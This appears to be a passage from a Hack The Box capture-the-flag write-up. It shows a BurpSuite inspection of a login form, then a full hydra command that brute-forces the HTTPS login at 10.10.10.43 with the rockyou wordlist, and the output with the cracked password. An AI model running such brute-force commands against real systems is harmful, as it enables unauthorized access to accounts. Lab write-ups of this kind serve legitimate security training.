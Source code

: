 
Using BurpSuite, we can see the paramaters for the login form and get the response for inputting an invalid password for the newly found https website.

![x](9-screenshots-storage/burp_https_login.png)

We can now craft a new command to use hydra to brute force the new login.

```txt
hydra 10.10.10.43 -l none -P /usr/share/wordlists/rockyou.txt -e nsr https-form-post "/db/index.php:password=^PASS^&login=Log+In&proc_login=true:Incorrect password." -t 10 -o /HTB-boxes/Ninevah/2-enum/http/hydra_https_ip.md
```


```txt
[443][http-post-form] host: 10.10.10.43   login: none   password: password123
```

![x](9-screenshots-storage/hydra_https_success.png)
